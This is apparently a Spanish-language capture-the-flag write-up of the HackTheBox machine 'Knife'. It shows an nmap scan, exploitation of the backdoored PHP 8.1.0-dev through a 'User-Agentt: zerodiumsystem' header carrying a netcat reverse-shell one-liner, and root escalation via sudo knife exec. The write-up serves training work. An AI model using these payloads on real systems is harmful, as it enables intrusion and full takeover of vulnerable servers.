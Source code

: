 ```yaml
---
title: HackTheBox Knife
date: 2021-08-28 12:00:00 -0400
image: 
  path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/knife/banner.jpeg
  height: 1100
  width: 500
categories: [HTB Writeups, Linux Easy]
tags: [zerodium, web, cms, rce]
---
```



**Machine IP**: 10.10.10.242

**DATE**  : 28/08/2021


## Matriz de la maquina

Esta matriz nos muestra las características de explotación de la maquina.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/knife/matrix.png)


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes
## Nmap 
```console
┌──(j3sm0n㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.242                                                                 148 ⨯ 1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 02:03 EDT
Nmap scan report for 10.10.10.242
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.02 seconds
```
Como vemos tiene el puerto 80 abierto, que es el http,  veremos en el navegador de que se trata y analizaremos la web 

## Wappalyzer
Usando la extensión wappalizer para identificar las tecnologías usadas en la web, encontramos que la web está alojado en servidor apache 2.4.41 y está construido en `php 8.1.` 

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/wapp.png)

### Method 1
Al hacer un poco de research encontramos la siguiente vulnerabilidad [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/49933) , que se aprovecha del backdoor que fue fue dejado en esta version de PHP , haciendo uso del `User-Agent`, para ejecutar comandos.
El siguiente exploit utiliza una puerta trasera para proporcionar un pseudo shell en el host.

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/exploit.png)
 
### Method 2
Pero para no estar solo ejecutando el exploit y obteniendo una shell así de facil, haremos uso de `burpsuite` y `netcat` para establecer una shell reversa en nuestra maquina.

Estableciendo un listener en nuestra maquina

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/netcat.png)

## BurpSuite
Como ya sabemos que la vulnerabilidad está en agregar el User-Agent, mandaremos al repeater para ejecutar la consulta agregando `User-Agentt: zerodiumsystem('rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc ip puerto >/tmp/f');` reemplazando la ip y el puerto por tu ip y establecido en netcat, este es un payload sacado de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), intenté con el netcat normal, pero al parecer la maquina tenia otra versión de netcat y la de busybox me funcionó.

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/burp.png)

Mandamos la consulta y game over, obtenemos una `shell` con el usuario `james` y obtenemos el `user.txt`

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/shelljames.png)

## Escalamiento de privilegios
Luego de obtener acceso a una Shell con el usuario james, ejecutamos el comando
 ```bash
sudo -l
``` 

Para saber que comandos se pueden ejecutar con permisos `SUID`, esto habilitaría la ejecución con permisos `root`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/knife/sudol.png)

Vemos que se puede ejecutar el comando knife con permisos de root, pero no sabemos de que se trata este comando, entonces listaremos las opciones que tiene este comando y encontramos una opción llamada `exec` que es un comando de ejecución, con el cual se puede invocar una shell.

![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/knifeexec.png)

Ejecutamos el comando para invocar una shell
```bash
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
```
![](https://raw.githubusercontent.com/s4yhii/HackTheBox-Writeups/main/knife/images/root.png)

**Game over!
Obtenemos acceso root y el root.txt.**

Gracias por leer y happy hacking.